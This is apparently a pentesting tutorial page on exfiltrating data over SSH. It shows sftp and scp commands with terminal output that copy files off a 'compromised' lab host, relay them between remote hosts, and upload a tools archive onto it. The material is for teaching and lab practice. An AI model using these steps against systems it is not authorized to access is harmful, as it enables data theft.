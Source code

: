 ```yaml
---
title: SSH Pentesting -> Exfiltration
date: 2022-06-03 05:49:33 +0800
categories: [Infrastructure Pentesting, SSH]
tags: [infrastructure, pentesting, services, ssh, exfiltration, data transfer]     # TAG names should always be lowercase
---
```


# Exfiltration : *mitre -> TA0010*
***Exfiltration*** Is a technigue of removing/transfering data from a compromsied system. Adversaries may use this technigue to steal data from a target network.

# Tools

These are some of the tools that are used to exfiltrate data via ssh protocol.

- sftp
- scp 

## sftp
***SFTP*** Known as SSH File Transfer Protocol or Secure File Transfer Protocol is a network protocol that provides file access, file transfer, and file management over any reliable data stream.

### Exfiltrating data from the compromised system

syntax
> sftp [username]@[target_ip]

```bash
┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ sftp user1@192.168.43.234
user1@192.168.43.234's password: 
Connected to 192.168.43.234.
sftp> ls
Desktop    Documents  Downloads  Music      Pictures   Public     Templates  Videos     addr.txt   b.elf      dev.git    irc        
sftp> get dev.git
Fetching /home/user1/dev.git to dev.git
sftp> exit

┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ ls
dev.git
```

## Transfering data to the compromised system

syntax
> sftp [username]@[target_ip]

```bash
┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ ls
tools.zip

┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ sftp user1@192.168.43.234
user1@192.168.43.234's password: 
Connected to 192.168.43.234.
sftp> ls
Desktop    Documents  Downloads  Music      Pictures   Public     Templates  Videos     addr.txt   b.elf      dev.git    irc        
sftp> put tools.zip
Uploading tools.zip to /home/user1/tools.zip
tools.zip                                                                                                                           100%    0     0.0KB/s   00:00    
sftp> ls
Desktop    Documents  Downloads  Music      Pictures   Public     Templates  Videos     addr.txt   b.elf      dev.git    irc        tools.zip  
sftp> exit
```

## SCP
***SCP*** Secure copy protocol (SCP) is a means of securely transferring computer files between a local host and a remote host or between two remote hosts.

### Exfiltrating data from the compromised system to your system

syntax
> scp [username]@[target_ip]:[path_to_remote_file] [path_to_destination]

```bash
┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ ls

┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ scp user1@192.168.43.234:/home/user1/dev.git /home/cyberkhalid/pentest/data/dev.git
user1@192.168.43.234's password: 

┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ ls
dev.git
```

### Exfiltrating data from one remote system to another remote system

syntax
> scp [username]@[from_target_ip]:[path_to_file_to_be_copied] [username]@[to_target_ip]:[path_to_destination]

```bash
┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ scp user1@10.42.0.21:/home/user1/dev.git cyberkhalid@10.42.0.1:/home/cyberkhalid/pentest/data
cyberkhalid@10.42.0.1's password: 
user1@10.42.0.21's password: 

┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ ls
dev.git
```

## Transfering data to the compromised system

syntax
> scp [path_local_file] [username]@[target_ip]:[path_to_destination]

```bash
┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ scp tool.zip user1@10.42.0.21:/home/user1/tool.zip
user1@10.42.0.21's password: 
tool.zip                                                                                                                            100%    0     0.0KB/s   00:00    
```

# References

- [https://attack.mitre.org/tactics/TA0010/](https://attack.mitre.org/tactics/TA0010/)
- [https://en.wikipedia.org/wiki/SSH_File_Transfer_Protocol](https://en.wikipedia.org/wiki/SSH_File_Transfer_Protocol)
- [https://en.wikipedia.org/wiki/Secure_copy_protocol](https://en.wikipedia.org/wiki/Secure_copy_protocol)
